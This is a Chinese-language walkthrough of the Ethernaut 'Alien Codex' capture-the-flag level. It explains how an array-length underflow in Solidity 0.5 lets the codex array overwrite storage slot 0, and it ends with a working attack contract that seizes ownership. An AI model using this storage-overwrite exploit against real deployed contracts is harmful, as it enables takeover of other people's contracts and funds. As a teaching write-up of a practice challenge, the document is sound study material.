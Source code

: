 # Level 19 - Alien Codex
## 題目
[Alien Codex](https://ethernaut.openzeppelin.com/level/0x0BC04aa6aaC163A6B3667636D798FA053D43BD11)

### 通關條件
你揭開了一個 Alien 合約，宣告你的所有權來完成這一關。
### 提示
- 研究陣列是如何在 storage 中運作的
- 研究 ABI specifications
- 使用一個非常 狡詐 的手段
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
contract `Ownable` 太長，只節錄重點部分：
```solidity=
pragma solidity ^0.5.0;

contract Ownable {
    address private _owner;
```
## 解題
### 研究陣列是如何在 storage 中運作的
動態陣列在 storage 中的儲存方式跟靜態的不一樣，因為靜態的可以事先知道長度，所以會循序加入。動態的則是會按照會在宣告的位置儲存陣列的長度，而陣列實際儲存的位置則是在 `Keccak256(slot index)`，舉例來說：
```solidity
bytes32 public test1;
bytes32 public test2;
bytes32[] public test3;
bytes32 public test4;
```
| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bytes32) `test1`    |
| 1     | (bytes32) `test2`    |
| 2     | 陣列`test3`的長度|
| 3     | (bytes32) `test4`    |
| ⋮     |  ⋮   |
|   Keccak256(2)   | `test3[0]` |

關於 storage 的儲存方式也可以參考 [What is Smart Contract Storage Layout?](https://docs.alchemy.com/docs/smart-contract-storage-layout)

---

這題特意用舊版的 Solidity，代表是現在已經修掉的 bug。題目要求獲得合約所有權，
變數一共有三個，分別是從 `Ownable` 繼承來的：
1. `address private _owner`

和合約自己本身的：

2. `bool public contact`
3. `bytes32[] public codex`

function 的部分一共有四個，除了第 1 個之外，都是控制陣列 `codex` 的，分別是新增資料（19 行）、刪減長度達到刪除最後一筆資料（23 行）和 27 行的修改陣列中的值。
透過合約的功能我們可以推斷，這題應該是要修改陣列 `codex` 以達到將 owner 改成自己，在 [Level 5 - Token](https://hackmd.io/@D13/ethernaut5) 有提到過關於變數 overflow 的問題，這題也是一樣的概念：
1. 使用 `retract()` 讓 size 從 0 減為 $2^{256}-1$，
在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8) 中有提到過，一個合約只有 $2^{256}-1$ 個 storage slot，每個 storage 的長度為 bytes32，所以當 `codex` 的長度等於 $2^{256}-1$ 時，代表它覆蓋了整個 slot 了
2. 再來計算 `codex` 的第幾格會剛好等於 `owner` 的位置  

| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bytes20) `_owner`, (bool) `contact`  |
| 1     | (bytes32) `length(codex)`|
| ⋮     |  ⋮   |
|   Keccak256(1)   | `codex[0]` |
|   Keccak256(1) + 1   | `codex[1]` |
| ⋮     |  ⋮   |
| $2^{256}-2$     |  `codex[2^256-2-Keccak256(1)]`   |
| $2^{256}-1$     |  `codex[2^256-1-Keccak256(1)]`   |

從上表可以推算，slot 0 = `codex[2^256-1-Keccak256(1)]+1`，攻擊合約如下（呼叫 `retract()` 前要先呼叫 `makeContact()` 讓 `contact = true`，否則 `retract()` 會失敗，可見關卡程式碼 23->10->15 行來確認）
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../src/Ethernaut Challenge/19_AlienCodex.sol";

contract AlienAttack {
    AlienCodex level19 = AlienCodex(your_challenge_address);

    function exploit () external {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        bytes32 myAddress = bytes32(uint256(uint160(your_wallet_address)));
        level19.makeContact();
        level19.retract();
        level19.revise(index, myAddress);
    }
} 
```


